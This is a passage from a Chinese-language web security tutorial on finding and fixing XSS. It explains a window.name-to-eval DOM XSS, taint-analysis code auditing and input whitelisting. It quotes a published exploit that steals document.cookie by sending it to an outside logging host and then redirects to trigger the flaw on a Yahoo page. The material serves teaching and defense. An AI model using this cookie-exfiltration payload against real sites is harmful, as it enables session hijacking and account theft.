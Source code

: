提示 windows.name 输入数据被直接传递给 eval 函数，也就是说如果你能控制 windows.name 的值，就可以实现任意 JS 代码的执行。利用起来也非常简单，我们可以看下漏洞发现者 Abysssec 公司发布的利用代码：

```
<html>
<script>
window.name=' new Image().src="http://abysssec.com/log/log.php?cookie="+encodeURI(document.cookie);
setTimeout(\"location.href = \'http:\/\/www.yahoo.com\';\",10);';
location.href="http://adspecs.yahoo.com/index.php";
</script>
</html>
```

利用思路就是直接设置 window.name 参数，插入打算执行的 JS 代码，然后用 location.href 跳转到漏洞页面去触发。这类漏洞我在网易的一些网站上也发现了不少，也是用 Dominator 挖掘到的，所以个人比较推荐。

#### 白盒测试

如果我们有网站源码，就可以直接通过分析源码来挖掘漏洞。网站开发语言非常多， JavaScript、PHP、Python、Go、C/C++等等都可以用来开发网站的前端和后端。不同的语言有不同的特性，在源码审计时需要采取不同的检测点，但有一个共同的思路，那就是**污点分析的检测思路**。

前面我已经简单地提到污点分析原理就是检测用户可控的输入数据，污点也就是用户可控的输入数据。然后我们去追踪污点的传播过程，检测是否传递给危险的输出函数。对于 XSS 就是能够控制页面内容或者执行 JS 的输出函数有 echo、eval等。

有时我们也会反着来：先查看一些危险的输出函数，再回溯它的参数传递，判断是否有未经过滤的用户输入数据，若有就代表可能存在漏洞。其他漏洞类型，以及其他编程语言的代码审计方式都是相通的，只是有不同的 sinks 和过滤函数需要作为检测点。

![图片11.png](https://s0.lgstatic.com/i/image/M00/8C/36/Ciqc1F_pfG2AJevWAAGvhSxGKxk804.png)

图 11：污点分析流程

以 PHP 源码审计为例，常见的污点 source 有以下这些：

![图片14.png](https://s0.lgstatic.com/i/image/M00/8C/36/Ciqc1F_pfHaAfNXbAADXUYehbs4744.png)

关于 XSS 常见的污点触发位置 sink 有以下这些：

![图片15.png](https://s0.lgstatic.com/i/image/M00/8C/41/CgqCHl_pfH-AN_QGAAE9xCbnNNc546.png)

我在审计代码时，习惯使用 VSCode 和 Sublime，你可以根据自己的喜好选择一款合适的代码阅读软件，然后批量搜索文件中的 sink 位置，再往上回溯追踪是否有引入 source 污染数据；若引入了，有没有做好过滤转义等安全工作。

关于 DOM XSS 的审计，主要是针对 JS 代码的审计，关于它的 srouces & sinks，我已在《**04｜XSS：劫持身份的惯犯**》的图 14 中给出，此处不再赘述；你也可以按照污点分析的思路去做 JS 代码审计。

主流的自动化源码审计工具有 RIPS、Coverity、CheckMarx 等等，都是一些商业软件。近两年也有一些优秀的开源项目贡献，比如 [Kunlun-M](https://github.com/LoRexxar/Kunlun-M)，目前作者仍在更新维护中。如果你或者你所在的公司没有条件采购商业软件，这也是一个不错的选择。

### 防御 XSS 攻击

以前在面试一些同学时，问他们怎么修复 XSS，都会说做好过滤，但具体怎么做过滤，很多都答不上来。有的会简单说下做 HTML 实体化编码，比如用 htmlspecialchars 函数，但其实这是错误的。XSS 的防御必须根据不同的触发位置采取不同的防御方案，下面我们来详细了解一下。

#### 输入检查

在测试 XSS 时，经常需要输入一些特殊字符，所以在一开始直接做好输入检查有利于减少攻击的可能性。我在协助业务修复漏洞的时候，经常推荐的方法就是白名单限制，比如参数是个整数值，那直接限制死即可，若不符合就抛异常。不要单纯只想着过滤替换特殊字符，这很容易就被绕过了。
